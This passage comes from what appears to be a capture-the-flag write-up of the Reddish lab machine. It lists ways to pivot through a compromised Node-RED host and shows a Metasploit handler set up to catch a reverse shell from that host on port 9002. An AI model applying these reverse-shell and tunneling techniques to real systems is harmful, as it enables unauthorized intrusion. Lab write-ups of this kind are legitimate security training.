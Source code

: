 
Note the use of `()` and `&` in the ping sweep so that this runs in just over
a second, and doesn’t take 256 seconds to run.

I’ve got two new hosts to track:

![](https://0xdfimages.gitlab.io/img/reddish-network_map-2.png)

## Pivoting

### Overview

There’s many ways to set up tunnels to allow my pivot here. A few that come to
mind are:

  1. Get a meterpreter session with nodered, and use the `portfwd` capability to tunnel from my local box into the network (like ssh tunneling).
  2. Copy an ssh client to nodered, and ssh back into my kali box with a reverse tunnel.
  3. Build a listening interface (likely web) with NodeRed, and use that to tunnel traffic.
  4. Using software designed for tunneling.

The third would be interesting, and I’d love to see a flow for someone who
pulled it off, but I’ll leave that an an exercise for the reader.

ssh isn’t too bad, and I’ll show how to achieve it in Beyond Root using
`dropbear`.

I’ve learned of a couple new tunneling software recently, and I hope to follow
up with post on them soon.

For now, I’m going to use Metasploit. I typically avoid using Metasploit, but
this is a good case for it.

### Getting Meterpreter

I’ll get a meterpreter session going with nodered.

This is actually really easy with existing setup. I already have a flow that
generates a callback to port 9002. I’ll catch that in metasploit, and then
upgrade that shell to meterpreter.

Open a handler with payload `linux/x64/shell/reverse_tcp`, and catch a
callback from my flow:

    
    
    msf exploit(multi/handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (linux/x64/shell/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT  9002             yes       The listen port
    